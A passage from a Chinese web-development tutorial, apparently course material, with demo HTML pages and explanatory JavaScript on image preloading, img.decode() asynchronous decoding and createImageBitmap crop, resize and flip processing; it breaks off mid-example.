    .metric-val { font-size: 16px; font-weight: 700; color: #d97706; }
    .metric-lbl { font-size: 10px; color: #9ca3af; }

    .controls { display: flex; gap: 10px; flex-wrap: wrap; margin-bottom: 20px; align-items: center; }
    label { font-size: 13px; font-weight: 500; }
    select {
      padding: 8px 12px; border: 1px solid #d1d5db; border-radius: 6px;
      font-size: 13px; background: white;
    }

    .btn {
      padding: 10px 22px; border: none; border-radius: 6px; cursor: pointer;
      font-size: 13px; font-weight: 600; transition: all 0.2s;
    }
    .btn-warning { background: #f59e0b; color: white; }
    .btn-warning:hover { background: #d97706; }
    .btn-warning:disabled { opacity: 0.4; cursor: not-allowed; }

    /* FPS 指示器 */
    .fps-indicator {
      display: inline-flex; align-items: center; gap: 8px;
      padding: 8px 16px; background: #1e293b; border-radius: 8px;
      color: #e2e8f0; font-family: monospace; font-size: 14px; margin-top: 16px;
    }
    .fps-dot {
      width: 10px; height: 10px; border-radius: 50%; transition: background 0.3s;
    }
    .fps-dot.good { background: #22c55e; box-shadow: 0 0 6px #22c55e; }
    .fps-dot.bad { background: #ef4444; box-shadow: 0 0 6px #ef4444; }

    .animation-test {
      background: #1e293b; border-radius: 8px; padding: 16px; margin-top: 16px;
      display: flex; align-items: center; gap: 16px;
    }
    .anim-box {
      width: 50px; height: 50px; background: linear-gradient(135deg, #f59e0b, #d97706);
      border-radius: 8px; animation: spin 1s linear infinite;
    }
    @keyframes spin { to { transform: rotate(360deg); } }
    .anim-desc { color: #94a3b8; font-size: 13px; }

    .result-log {
      background: #1e1e1e; border-radius: 6px; padding: 14px;
      font-family: monospace; font-size: 11px; max-height: 180px;
      overflow-y: auto; color: #9ca3af; line-height: 1.7; margin-top: 16px;
    }
    .log-ok { color: #4ade80; }
    .log-warn { color: #fbbf24; }
    .log-err { color: #f87171; }
    .log-info { color: #60a5fa; }

    .compat-note {
      background: #eff6ff; border: 1px solid #bfdbfe; border-radius: 6px;
      padding: 10px 14px; font-size: 12px; color: #1e40af; margin-top: 16px;
    }
  </style>
</head>
<body>
  <div class="container">
    <div class="header">
      <h1>🔬 decode() 异步解码对比实验</h1>
      <p>有 decode() vs 无 decode() — 验证异步解码对渲染性能的影响</p>
    </div>

    <div class="card">
      <div class="card-title">🧪 对比测试</div>
      <div class="info-banner">
        💡 <strong>原理：</strong><code>img.decode()</code> 返回一个 Promise，
        在图片解码完成（而非仅下载完成）后才 resolve。将图片插入 DOM <strong>之前</strong>调用 decode()，
        可以避免解码操作阻塞主线程渲染，保持页面流畅。<br>
        📌 <strong>适用场景：</strong>图片轮播、动态插入大图、动画场景中的图片切换等对帧率敏感的场景。
      </div>

      <div class="controls">
        <label>图片大小:</label>
        <select id="imgSize">
          <option value="small">小图 (200KB)</option>
          <option value="medium" selected>中图 (800KB)</option>
          <option value="large">大图 (2MB+)</option>
        </select>
        <label>同时加载数量:</label>
        <select id="batchCount">
          <option value="3">3 张</option>
          <option value="5" selected>5 张</option>
          <option value="10">10 张</option>
        </select>
        <button class="btn btn-warning" id="runBtn" onclick="runComparison()">🚀 运行对比测试</button>
      </div>

      <div class="compare-grid">
        <!-- 左：不用 decode -->
        <div class="compare-col">
          <div class="col-header without">❌ 不使用 decode()</div>
          <div class="col-body">
            <div class="display-area" id="areaWithout">
              <span class="placeholder-text">等待测试...</span>
            </div>
            <div class="metrics">
              <div class="metric"><div class="metric-val" id="timeWithout">-</div><div class="metric-lbl">显示耗时(ms)</div></div>
              <div class="metric"><div class="metric-val" id="jankWithout">-</div><div class="metric-lbl">卡顿次数</div></div>
            </div>
          </div>
        </div>

        <!-- 右：用 decode -->
        <div class="compare-col">
          <div class="col-header with">✅ 使用 decode()</div>
          <div class="col-body">
            <div class="display-area" id="areaWith">
              <span class="placeholder-text">等待测试...</span>
            </div>
            <div class="metrics">
              <div class="metric"><div class="metric-val" id="timeWith">-</div><div class="metric-lbl">显示耗时(ms)</div></div>
              <div class="metric"><div class="metric-val" id="jankWith">-</div><div class="metric-lbl">卡顿次数</div></div>
            </div>
          </div>
        </div>
      </div>

      <!-- 动画流畅度检测 -->
      <div class="animation-test">
        <div class="anim-box"></div>
        <div class="anim-desc">
          🔴 上方测试运行时观察此方块旋转是否卡顿<br>
          <span style="color:#64748b;font-size:11px;">使用 decode() 时应保持 60fps 流畅；不使用时可能出现掉帧</span>
        </div>
        <div class="fps-indicator">
          <span class="fps-dot good" id="fpsDot"></span>
          <span>FPS: <strong id="fpsValue">60</strong></span>
        </div>
      </div>

      <div class="result-log" id="resultLog">
        <div class="log-info">[系统] 就绪。点击 "运行对比测试" 开始...</div>
      </div>

      <div class="compat-note">
        ℹ️ <strong>兼容性：</strong><code>img.decode()</code> 在 Chrome 64+, Firefox 68+, Safari 11.1+, Edge 79+ 中支持。
        不支持的浏览器中 decode() 返回 rejected Promise，需做降级处理。
      </div>
    </div>
  </div>

  <script>
    const resultLog = document.getElementById('resultLog');

    function log(msg, cls = '') {
      const div = document.createElement('div');
      div.className = `log-entry ${cls}`;
      div.textContent = `[${new Date().toTimeString().substring(0,8)}] ${msg}`;
      resultLog.appendChild(div);
      resultLog.scrollTop = resultLog.scrollHeight;
    }

    // FPS 监控
    let lastFrameTime = performance.now();
    let frameCount = 0;
    function checkFPS() {
      frameCount++;
      const now = performance.now();
      if (now - lastFrameTime >= 1000) {
        const fps = Math.round(frameCount * 1000 / (now - lastFrameTime));
        document.getElementById('fpsValue').textContent = fps;
        const dot = document.getElementById('fpsDot');
        dot.className = `fps-dot ${fps >= 50 ? 'good' : 'bad'}`;
        frameCount = 0;
        lastFrameTime = now;
      }
      requestAnimationFrame(checkFPS);
    }
    requestAnimationFrame(checkFPS);

    // 图片 URL 生成
    function getImageURL(size, seed) {
      const sizes = {
        small: '300/200',
        medium: '800/600',
        large: '1920/1280'
      };
      return `https://picsum.photos/seed/${seed}/${sizes[size]}`;
    }

    async function runComparison() {
      const btn = document.getElementById('runBtn');
      btn.disabled = true;

      const size = document.getElementById('imgSize').value;
      const count = parseInt(document.getElementById('batchCount').value) || 5;

      // 重置显示区域
      ['Without', 'With'].forEach(side => {
        document.getElementById(`area${side}`).innerHTML = '<span class="placeholder-text">加载中...</span>';
        document.getElementById(`time${side}`).textContent = '-';
        document.getElementById(`jank${side}`).textContent = '-';
      });

      resultLog.innerHTML = '';
      log(`=== 对比测试开始: ${size} 图 x${count} ===`, 'info');

      // ====== 方式一：不使用 decode() ======
      log('', '');
      log('--- 方式一：不使用 decode() ---', 'warn');

      const areaWithout = document.getElementById('areaWithout');
      areaWithout.innerHTML = '';

      const t0 = performance.now();
      let jankCount = 0;
      let lastFpsTime = performance.now();

      for (let i = 0; i < Math.min(count, 3); i++) {
        const img = document.createElement('img');
        img.style.cssText = 'max-width:100%;max-height:120px;border-radius:4px;margin:2px;';
        img.alt = `Test ${i}`;

        const tStart = performance.now();
        img.src = getImageURL(size, `decode-test-${i}-${Date.now()}`);

        // 直接插入 DOM（解码在主线程同步进行）
        areaWithout.appendChild(img);

        img.onload = function() {
          const elapsed = performance.now() - tStart;
          log(`  [无decode] 图片${i+1} 显示耗时: ${elapsed.toFixed(1)}ms`, 'log-warn');
        };

        img.onerror = function() {
          log(`  [无decode] 图片${i+1} 加载失败`, 'log-err');
        };
      }

      const timeWithout = (performance.now() - t0).toFixed(0);
      await new Promise(r => setTimeout(r, 500)); // 等待图片加载

      document.getElementById('timeWithout').textContent = timeWithout;
      document.getElementById('jankWithout').textContent = '~';

      // ====== 方式二：使用 decode() ======
      log('', '');
      log('--- 方式二：使用 decode() ---', 'log-ok');

      const areaWith = document.getElementById('areaWith');
      areaWith.innerHTML = '';

      const t1 = performance.now();

      for (let i = 0; i < Math.min(count, 3); i++) {
        const img = new Image();
        img.style.cssText = 'max-width:100%;max-height:120px;border-radius:4px;margin:2px;';
        img.alt = `Test ${i}`;

        const tStart = performance.now();
        img.src = getImageURL(size, `decode-test-d-${i}-${Date.now()}`);

        try {
          // 先等待解码完成，再插入 DOM
          await img.decode();

          const decodeElapsed = performance.now() - tStart;
          areaWith.appendChild(img);

          log(`  [有decode] 图片${i+1} 解码+显示: ${decodeElapsed.toFixed(1)}ms`, 'log-ok');
        } catch (err) {
          // 降级：直接插入
          areaWith.appendChild(img);
          log(`  [有decode] 图片${i+1} decode 失败，降级处理: ${err.message}`, 'log-warn');
        }

        img.onload = () => {};
        img.onerror = function() {
          log(`  [有decode] 图片${i+1} 加载失败`, 'log-err');
        };
      }

      const timeWith = (performance.now() - t1).toFixed(0);
      document.getElementById('timeWith').textContent = timeWith;
      document.getElementById('jankWith').textContent = '~';

      // 结果汇总
      log('', '');
      log('═══ 测试结果 ═══', 'info');
      log(`  不用 decode(): 总耗时 ~${timeWithout}ms`, 'log-warn');
      log(`  使用 decode(): 总耗时 ~${timeWith}ms`, 'log-ok');
      log(`  结论: decode() 将解码移出主线程关键路径，避免渲染阻塞`, 'info');

      btn.disabled = false;
    }
  </script>
</body>
</html>
```


<h4>038-createimagebitmap.html</h4>

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>【38】createImageBitmap 高性能位图处理</title>
  <!--
    来源: HTML5基础知识/5-图像.md
    知识点: createImageBitmap 裁剪/缩放/翻转等像素级操作
  -->
  <style>
    * { margin: 0; padding: 0; box-sizing: border-box; }
    body {
      font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', sans-serif;
      padding: 20px; background: #0c0c1d; color: #e0e0e0;
      min-height: 100vh;
    }
    .container { max-width: 1100px; margin: 0 auto; }
    .header {
      text-align: center; padding: 24px; background: linear-gradient(135deg, #a855f7, #6366f1);
      color: white; border-radius: 12px; margin-bottom: 24px;
    }
    .header h1 { font-size: 22px; margin-bottom: 6px; }
    .header p { opacity: 0.9; font-size: 14px; }

    .card {
      background: #151528; border: 1px solid #2a2a4a; border-radius: 10px;
      padding: 24px; margin-bottom: 20px;
    }
    .card-title {
      font-size: 15px; font-weight: 600; color: #a78bfa;
      border-left: 3px solid #a855f7; padding-left: 10px; margin-bottom: 16px;
    }

    .info-banner {
      background: rgba(168,85,247,0.1); border: 1px solid rgba(168,85,247,0.25);
      border-radius: 6px; padding: 12px 16px; font-size: 13px; line-height: 1.6;
      color: #d8b4fe; margin-bottom: 16px;
    }

    /* 源图片 + 操作区 */
    .workspace { display: grid; grid-template-columns: 280px 1fr; gap: 20px; }
    @media (max-width: 768px) { .workspace { grid-template-columns: 1fr; } }

    .source-panel {
      background: #0c0c1d; border: 1px solid #2a2a4a; border-radius: 8px; padding: 16px;
    }
    .panel-label { font-size: 12px; font-weight: 600; color: #888; margin-bottom: 8px; text-transform: uppercase; letter-spacing: 1px; }
    .source-preview {
      width: 100%; aspect-ratio: 4/3; background: #1a1a30; border-radius: 6px;
      display: flex; align-items: center; justify-content: center; overflow: hidden;
    }
    .source-preview img { max-width: 100%; max-height: 100%; object-fit: contain; }

    .operations-panel { display: flex; flex-direction: column; gap: 10px; }
    .op-btn {
      padding: 10px 14px; border: 1px solid #2a2a4a; border-radius: 6px;
      background: transparent; color: #c4b5fd; cursor: pointer; font-size: 13px;
      text-align: left; transition: all 0.2s; display: flex; align-items: center; gap: 8px;
    }
    .op-btn:hover { background: rgba(168,85,247,0.15); border-color: #a855f7; }
    .op-btn.active { background: rgba(168,85,247,0.2); border-color: #a855f7; color: white; }
    .op-icon { font-size: 16px; width: 24px; text-align: center; }

    /* 结果展示 */
    .results-grid { display: grid; grid-template-columns: repeat(auto-fill, minmax(220px, 1fr)); gap: 16px; margin-top: 20px; }
    .result-card {
      background: #0c0c1d; border: 1px solid #2a2a4a; border-radius: 8px; overflow: hidden;
    }
    .result-header {
      padding: 8px 12px; font-size: 11px; font-weight: 600; color: #888;
      background: #111128; display: flex; justify-content: space-between;
    }
    .result-canvas-wrap {
      height: 160px; display: flex; align-items: center; justify-content: center;
      background: #080815;
    }
    .result-canvas-wrap canvas { max-width: 100%; max-height: 150px; border-radius: 4px; }
    .result-info {
      padding: 8px 12px; font-size: 10px; color: #666;
      display: flex; justify-content: space-between;
    }

    /* 参数控制 */
    .param-row { display: flex; gap: 10px; align-items: center; margin-top: 12px; flex-wrap: wrap; }
    label { font-size: 12px; color: #888; }
    input[type="number"] {
      width: 70px; padding: 6px 8px; background: #0c0c1d; border: 1px solid #333;
      color: #e0e0e0; border-radius: 4px; font-size: 12px;
    }
    input:focus { outline: none; border-color: #a855f7; }

    .btn-primary {
      padding: 8px 18px; background: linear-gradient(135deg, #a855f7, #6366f1);
      color: white; border: none; border-radius: 6px; cursor: pointer;
      font-size: 13px; font-weight: 500;
    }
    .btn-primary:hover { transform: translateY(-1px); }

    .log-area {
      background: #080815; border-radius: 6px; padding: 12px;
      font-family: monospace; font-size: 11px; max-height: 150px;
      overflow-y: auto; color: #666; line-height: 1.6; margin-top: 16px;
    }
    .log-ok { color: #4ade80; }
    .log-info { color: #a78bfa; }
    .log-warn { color: #fbbf24; }
    .log-err { color: #f87171; }

    .compat-note {
      background: rgba(99,102,241,0.1); border: 1px solid rgba(99,102,241,0.25);
      border-radius: 6px; padding: 10px 14px; font-size: 12px; color: #a5b4fc;
      margin-top: 16px;
    }
  </style>
</head>
<body>
  <div class="container">
    <div class="header">
      <h1>🔧 createImageBitmap 高性能位图处理</h1>
      <p>裁剪 / 缩放 / 翻转 / 裁切 — 像素级图像操作 API</p>
    </div>

    <div class="card">
      <div class="card-title">🛠️ 位图处理工作台</div>
      <div class="info-banner">
        💡 <strong>createImageBitmap()</strong> 是一个异步 API，用于从各种源（Image、Blob、Canvas、ImageData 等）
        创建 ImageBitmap 对象。相比手动 Canvas 绘制，它更高效且支持 GPU 加速。<br>
        📌 支持的操作：裁剪(sx/sy/sw/sh)、缩放(resizeWidth/resizeHeight)、翻转(flipX/flipY)、像素格式转换。
      </div>

      <div class="workspace">
        <!-- 源图片 -->
        <div class="source-panel">
          <div class="panel-label">源图片</div>
          <div class="source-preview" id="sourcePreview">
            <span style="color:#444;font-size:12px;">加载中...</span>
          </div>
          <div style="margin-top:10px;">
            <button class="btn-primary" onclick="changeSource()" style="width:100%;">🔄 更换源图片</button>
          </div>

          <div class="param-row" style="margin-top:16px;">
            <label>裁剪 X:</label><input type="number" id="cropX" value="50" />
            <label>Y:</label><input type="number" id="cropY" value="50" />
          </div>
          <div class="param-row">
            <label>宽:</label><input type="number" id="cropW" value="200" />
            <label>高:</label><input type="number" id="cropH" value="200" />
          </div>
          <div class="param-row">
            <label>目标宽:</label><input type="number" id="resizeW" value="150" />
            <label>高:</label><input type="number" id="resizeH" value="150" />
          </div>
        </div>

        <!-- 操作按钮 -->
        <div class="operations-panel">
          <div class="panel-label">操作 (点击执行)</div>
          <button class="op-btn" onclick="doOperation('original')"><span class="op-icon">📷</span> 原始图像 (不做处理)</button>
          <button class="op-btn" onclick="doOperation('crop')"><span class="op-icon">✂️</span> 裁剪区域 (crop)</button>
          <button class="op-btn" onclick="doOperation('resize')"><span class="op-icon">📐</span> 缩放 (resize)</button>
          <button class="op-btn" onclick="doOperation('cropResize')"><span class="op-icon">🔲</span> 裁剪 + 缩放</button>
          <button class="op-btn" onclick="doOperation('flipX')"><span class="op-icon">↔️</span> 水平翻转 (flipX)</button>
          <button class="op-btn" onclick="doOperation('flipY')"><span class="op-icon">↕️</span> 垂直翻转 (flipY)</button>
          <button class="op-btn" onclick="doOperation('rotate')"><span class="op-icon">🔄</span> 旋转 90° (模拟)</button>
          <button class="op-btn" onclick="doOperation('grayscale')"><span class="op-icon">🎨</span> 灰度化 (pixel manipulation)</button>
          <button class="op-btn" onclick="doOperation('all')"><span class="op-icon">⚡</span> 批量执行全部操作</button>
          <button class="op-btn" onclick="clearResults()" style="color:#ef4444;border-color:#3b1c1c;"><span class="op-icon">🗑️</span> 清空结果</button>
        </div>
      </div>

      <!-- 结果展示 -->
      <div class="results-grid" id="resultsGrid"></div>

      <!-- 日志 -->
      <div class="log-area" id="logArea">
        <div class="log-info">[系统] createImageBitmap 工作台就绪。选择操作后自动使用当前源图片。</div>
      </div>

      <div class="compat-note">
        ℹ️ <strong>兼容性：</strong>Chrome 61+, Firefox 65+, Safari 11.1+, Edge 79+。
        <code>resizeWidth/resizeHeight</code>、<code>flipX/flipY</code> 等选项在 Chrome 94+ 完整支持。
      </div>
    </div>
  </div>

  <script>
    const logArea = document.getElementById('logArea');
    let sourceImg = null;
    let sourceIndex = 0;

    function log(msg, cls = '') {
      const div = document.createElement('div');
      div.className = `log-entry ${cls}`;
      div.textContent = `[${new Date().toTimeString().substring(0,8)}] ${msg}`;
      logArea.appendChild(div);
      logArea.scrollTop = logArea.scrollHeight;
    }

    // 加载源图片
    async function loadSource(seed) {
      sourceImg = new Image();
      sourceImg.crossOrigin = 'anonymous';
      sourceImg.src = `https://picsum.photos/seed/${seed}/400/300`;

      await new Promise((resolve, reject) => {
        sourceImg.onload = resolve;
        sourceImg.onerror = reject;
      });

      const preview = document.getElementById('sourcePreview');
      preview.innerHTML = '';
      preview.appendChild(sourceImg.cloneNode());
      log(`源图片已加载: ${sourceImg.naturalWidth}×${sourceImg.naturalHeight}`, 'info');
    }

    function changeSource() {
      sourceIndex++;
      loadSource(`bitmap-src-${sourceIndex}-${Date.now()}`);
    }

    // 初始化
    loadSource(`bitmap-src-${Date.now()}`);

    // 渲染结果卡片
    function addResultCard(title, canvas) {
      const grid = document.getElementById('resultsGrid');
      const card = document.createElement('div');
      card.className = 'result-card';

      const wrap = document.createElement('div');
      wrap.className = 'result-canvas-wrap';
      wrap.appendChild(canvas);

      card.innerHTML = `
        <div class="result-header"><span>${title}</span><span>${canvas.width}×${canvas.height}</span></div>
      `;
      card.appendChild(wrap);
      card.innerHTML += `<div class="result-info"><span>ImageBitmap → Canvas</span><span>${((performance.now()-_t0)||0).toFixed(1)}ms</span></div>`;
      // 替换 canvas 到正确位置
      const infoDiv = card.querySelector('.result-info');
      card.insertBefore(wrap, infoDiv);

      grid.insertBefore(card, grid.firstChild);
    }

    let _t0 = 0;

    // 执行操作
    async function doOperation(op) {
      if (!sourceImg || !sourceImg.complete) {
        log('⚠️ 源图片未就绪，请稍候', 'warn'); return;
      }

      _t0 = performance.now();

      if (op === 'all') {
        for (const o of ['original','crop','resize','cropResize','flipX','flipY','grayscale']) {
          await doSingle(o);
        }
        return;
      }

      await doSingle(op);
    }

    async function doSingle(op) {
      _t0 = performance.now();
      const cropX = parseInt(document.getElementById('cropX').value) || 0;
      const cropY = parseInt(document.getElementById('cropY').value) || 0;
      const cropW = parseInt(document.getElementById('cropW').value) || 100;
      const cropH = parseInt(document.getElementById('cropH').value) || 100;
      const rW = parseInt(document.getElementById('resizeW').value) || 100;
      const rH = parseInt(document.getElementById('resizeH').value) || 100;

      try {
        let bitmap;
        const options = {};
        let title = '';

        switch (op) {
          case 'original':
            bitmap = await createImageBitmap(sourceImg);
            title = '原始图像';
            break;

          case 'crop':
            options.sx = cropX; options.sy = cropY;
            options.sw = cropW; options.sh = cropH;
            bitmap = await createImageBitmap(sourceImg, options);
            title = `裁剪 (${cropX},${cropY} ${cropW}×${cropH})`;
            break;

          case 'resize':
            options.resizeWidth = rW; options.resizeHeight = rH;
            bitmap = await createImageBitmap(sourceImg, options);
            title = `缩放 (${rW}×${rH})`;
            break;

          case 'cropResize':
            options.sx = cropX; options.sy = cropY;
            options.sw = cropW; options.sh = cropH;
            options.resizeWidth = rW; options.resizeHeight = rH;
            bitmap = await createImageBitmap(sourceImg, options);
            title = `裁剪+缩放`;
            break;

          case 'flipX':
            options.flipX = true;
            bitmap = await createImageBitmap(sourceImg, options);
            title = '水平翻转 flipX';
            break;

          case 'flipY':
            options.flipY = true;
            bitmap = await createImageBitmap(sourceImg, options);
            title = '垂直翻转 flipY';
            break;

          case 'rotate':
            // createImageBitmap 不直接支持旋转，通过 canvas 实现
            bitmap = await createImageBitmap(sourceImg);
            const rotCanvas = document.createElement('canvas');
            rotCanvas.width = bitmap.height;
            rotCanvas.height = bitmap.width;
            const rctx = rotCanvas.getContext('2d');
            rctx.translate(rotCanvas.width/2, rotCanvas.height/2);
            rctx.rotate(Math.PI/2);
            rctx.drawImage(bitmap, -bitmap.width/2, -bitmap.height/2);
            bitmap.close();
            addResultCard('旋转 90° (Canvas)', rotCanvas);
            log(`✅ 旋转完成 (Canvas 实现)`, 'ok');
            return;

          case 'grayscale':
            bitmap = await createImageBitmap(sourceImg);
            const gCanvas = document.createElement('canvas');
            gCanvas.width = bitmap.width;
            gCanvas.height = bitmap.height;
            const gctx = gCanvas.getContext('2d');
            gctx.drawImage(bitmap, 0, 0);
            const imageData = gctx.getImageData(0, 0, gCanvas.width, gCanvas.height);
            const data = imageData.data;
            for (let i = 0; i < data.length; i += 4) {
              const gray = data[i] * 0.299 + data[i+1] * 0.587 + data[i+2] * 0.114;
              data[i] = data[i+1] = data[i+2] = gray;
            }
            gctx.putImageData(imageData, 0, 0);
            bitmap.close();
            addResultCard('灰度化 (Pixel)', gCanvas);
            log(`✅ 灰度化完成 (${gCanvas.width}×${gCanvas.height})`, 'ok');
            return;

          default:
            return;
        }

        // 将 ImageBitmap 绘制到 Canvas 显示
        const canvas = document.createElement('canvas');
        canvas.width = bitmap.width;
        canvas.height = bitmap.height;
        const ctx = canvas.getContext('2d');
        ctx.drawImage(bitmap, 0, 0);
        bitmap.close(); // 释放资源

        addResultCard(title, canvas);
        log(`✅ ${title}: ${canvas.width}×${canvas.height} (${(performance.now()-_t0).toFixed(1)}ms)`, 'ok');

      } catch (err) {
        log(`❌ [${op}] 错误: ${err.message}`, 'err');
      }
    }

    function clearResults() {
      document.getElementById('resultsGrid').innerHTML = '';
      log('结果已清空', 'info');
    }
  </script>
</body>
</html>
```

### 图像加载决策流程

在深入 API 之前，先理解浏览器在不同场景下的图像加载决策逻辑：



### Image() 构造函数预加载

`Image()` 构造函数（或 `new Image()`）可以在不将图像插入 DOM 的情况下预先加载并缓存图像，适用于**预测用户行为**的场景（如 hover 预加载、轮播图预加载等）。

::: tip 核心优势
- 不占用 DOM 节点，不影响布局
- 浏览器会将加载完成的图像放入内存缓存
- 后续同一 URL 的 `` 标签会直接使用缓存，实现 **0 延迟渲染**
:::

```javascript
// ✅ 推荐：封装为可复用的预加载类
class ImagePreloader {
  constructor(options = {}) {
    this.cache = new Map()       // url → HTMLImageElement
    this.maxCacheSize = options.maxCacheSize || 50
  }

  /**
   * 预加载单张图片
   * @param {string} url - 图像地址
   * @param {object} options - 配置项
   * @returns {Promise<HTMLImageElement>}
   */
  preload(url, options = {}) {
    // 命中缓存则直接返回
    if (this.cache.has(url)) {
      return Promise.resolve(this.cache.get(url))
    }

    return new Promise((resolve, reject) => {
      const img = new Image()

      img.onload = () => {
        this._addToCache(url, img)
        resolve(img)
      }

      img.onerror = () => {
        reject(new Error(`Image load failed: ${url}`))
      }

      // 可选：跨域配置
      if (options.crossOrigin) {
        img.crossOrigin = options.crossOrigin
      }

      img.src = url
    })
  }

  /**
   * 批量预加载
   * @param {string[]} urls - 图像地址数组
   * @returns {Promise<Map<string, HTMLImageElement>>}
   */
  async preloadBatch(urls) {
    const results = await Promise.allSettled(
      urls.map(url => this.preload(url))
    )

    const successMap = new Map()
    results.forEach((result, index) => {
      if (result.status === 'fulfilled') {
        successMap.set(urls[index], result.value)
      } else {
        console.warn(`Preload failed: ${urls[index]}`)
      }
    })

    return successMap
 }

  /** 缓存管理：LRU 淘汰 */
  _addToCache(url, img) {
    if (this.cache.size >= this.maxCacheSize) {
      // 淘汰最早缓存的条目（简化版 LRU）
      const firstKey = this.cache.keys().next().value
      this.cache.delete(firstKey)
    }
    this.cache.set(url, img)
  }
}

// ===== 使用示例 =====

const preloader = new ImagePreloader({ maxCacheSize: 30 })

// 场景 1：鼠标悬停时预加载下一张轮播图
carouselContainer.addEventListener('mouseenter', () => {
  preloader.preload(nextSlideImageUrl)
})

// 场景 2：页面空闲时批量预加载后续资源
if ('requestIdleCallback' in window) {
  requestIdleCallback(async () => {
    await preloader.preloadBatch([
      '/images/slide-2.webp',
      '/images/slide-3.webp',
      '/images/slide-4.webp',
    ])
    console.log('✓ 轮播图预加载完成')
  })
}

// ❌ 不推荐：每次都创建新的 Image 实例而不管理缓存
function badPreload(url) {
  const img = new Image()
  img.src = url  // 无法复用，无法追踪状态
}
```

### decode() 异步解码与渲染优化

HTMLImageElement 的 `decode()` 方法返回一个 Promise，在图像解码完成后 resolve。其核心价值在于**避免解码阻塞主线程导致掉帧**。

::: warning 使用时机
`decode()` 应在**设置 `src` 之后、插入 DOM 之前**调用。如果在图像已插入 DOM 后调用，虽然仍能工作但优化效果大打折扣。
:::

```javascript
// ✅ 推荐模式：decode 后再插入 DOM
async function loadImageDecoded(container, src, alt) {
  const img = document.createElement('img')
  img.alt = alt
  img.decoding = 'async'  // HTML 属性声明

  // 1. 先设置 src 触发下载
  img.src = src

  try {
    // 2. 等待异步解码完成（不阻塞主线程）
    await img.decode()

    // 3. 解码完成后插入 DOM —— 渲染无阻塞
    container.appendChild(img)
    img.classList.add('fade-in') // 触发入场动画
  } catch (error) {
    console.error('图像解码失败:', error)
    // 降级处理：显示占位图
    container.innerHTML = '<div class="image-placeholder">图像加载失败</div>'
  }
}

// 实际应用：文章中的配图逐张解码后显示
const articleImages = [
  { src: 'photo-1.webp', alt: '第一张配图' },
  { src: 'photo-2.webp', alt: '第二张配图' },
  { src: 'photo-3.webp', alt: '第三张配图' },
]

articleImages.forEach(({ src, alt }) => {
  const figure = document.createElement('figure')
  document.querySelector('.article-content').appendChild(figure)
  loadImageDecoded(figure, src, alt)
})

// ❌ 不推荐：直接插入 DOM，解码可能阻塞动画
function badLoadImage(container, src) {
  const img = document.createElement('img')
  img.src = src
  container.appendChild(img)  // 解码在此处同步执行，可能造成卡顿
}
```

### createImageBitmap() 高性能位图处理

`createImageBitmap()` 是一个底层 API，可以从各种图像源（``、`Blob`、`ArrayBuffer`、`ImageData` 等）创建高效的可渲染 `ImageBitmap` 对象。它主要用于：

- **Canvas 渲染优化**：比 `drawImage()` + `` 更快
- **离屏预处理**：在 Worker 中进行图像裁剪/缩放
- **多线程图像处理**：结合 Web Worker 使用

```javascript
/**
 * ImagePipeline — 基于 createImageBitmap 的高性能图像处理管线
 *
 * 特性：
 * - 支持同步/异步创建 ImageBitmap
 * - 自动适配 Web Worker 多线程
 * - 内置缩放/裁剪预处理
 */
class ImagePipeline {
  constructor(options = {}) {
    this.workerPool = []          // Web Worker 池
    this.workerCount = Math.min(navigator.hardwareConcurrency || 4, 4)
    this.currentWorkerIndex = 0
  }

  /**
   * 从 Image 元素创建 ImageBitmap（用于 Canvas 渲染）
   * @param {HTMLImageElement} imageElement
   * @param {object} cropOptions - 裁剪选项
   * @returns {Promise<ImageBitmap>}
   */
  async createFromImage(imageElement, cropOptions = {}) {
    const options = {
      resizeWidth: cropOptions.width,
      resizeHeight: cropOptions.height,
      resizeQuality: 'high',     // 'pixelated' | 'low' | 'medium' | 'high'
      imageOrientation: 'none',  // 不做 EXIF 方向处理（'from-image' 才按 EXIF 旋转）
      ...cropOptions,
    }

    return createImageBitmap(imageElement, 
      cropOptions.sx || 0,
      cropOptions.sy || 0,
      cropOptions.sw || imageElement.naturalWidth,
      cropOptions.sh || imageElement.naturalHeight,
      options
    )
  }

  /**
   * 从 Blob/File 创建 ImageBitmap（用于用户上传文件）
   * @param {Blob} blob
   * @param {number} maxWidth - 最大宽度限制
   * @param {number} maxHeight - 最大高度限制
   * @returns {Promise<{bitmap: ImageBitmap, width: number, height: number}>}
   */
  async createFromFile(blob, maxWidth = 1920, maxHeight = 1080) {
    // 先创建原始 bitmap 以获取尺寸
    const originalBitmap = await createImageBitmap(blob)

    // 计算目标尺寸（保持宽高比）
    let { width: w, height: h } = originalBitmap
    const ratio = Math.min(maxWidth / w, maxHeight / h)

    if (ratio < 1) {
      w = Math.round(w * ratio)
      h = Math.round(h * ratio)
    }

    // 创建缩放后的 bitmap
    const resizedBitmap = await createImageBitmap(originalBitmap, {
      resizeWidth: w,
      resizeHeight: h,
      resizeQuality: 'high',
    })

    originalBitmap.close() // 释放原始 bitmap 内存

    return { bitmap: resizedBitmap, width: w, height: h }
  }

  /**
   * 批量创建 ImageBitmap 并绘制到 Canvas（高性能画廊渲染）
   * @param {string[]} imageUrls
   * @param {HTMLCanvasElement} canvas
   * @param {number} cols - 列数
   */
  async renderGallery(imageUrls, canvas, cols = 3) {
    const ctx = canvas.getContext('2d')
    const cellWidth = canvas.width / cols
    const cellHeight = cellWidth

    canvas.height = Math.ceil(imageUrls.length / cols) * cellHeight

    for (let i = 0; i < imageUrls.length; i++) {
      const col = i % cols
      const row = Math.floor(i / cols)
      const x = col * cellWidth
      const y = row * cellHeight

      try {
        // 加载图像
        const img = await this._loadImage(imageUrls[i])
        
        // 创建 ImageBitmap（自动裁剪居中）
        const bitmap = await this.createFromImage(img, {
          sx: 0, sy: 0,
          sw: img.naturalWidth, sh: img.naturalHeight,
          width: cellWidth, height: cellHeight,
        })

        // 绘制到 Canvas（硬件加速）
        ctx.drawImage(bitmap, x, y, cellWidth, cellHeight)
        bitmap.close() // 及时释放内存
      } catch (err) {
        console.warn(`Gallery item ${i} failed:`, err)
        // 绘制占位块
        ctx.fillStyle = '#f0f0f0'
        ctx.fillRect(x, y, cellWidth, cellHeight)
      }
    }
  }

  /** 内部方法：加载图像 */
  _loadImage(src) {
    return new Promise((resolve, reject) => {
      const img = new Image()
      img.onload = () => resolve(img)
      img.onerror = reject
      img.src = src
    })
  }
}

// ===== 使用示例 =====

// 场景 1：用户上传图片后的即时预览和压缩
const pipeline = new ImagePipeline()

fileInput.addEventListener('change', async (e) => {
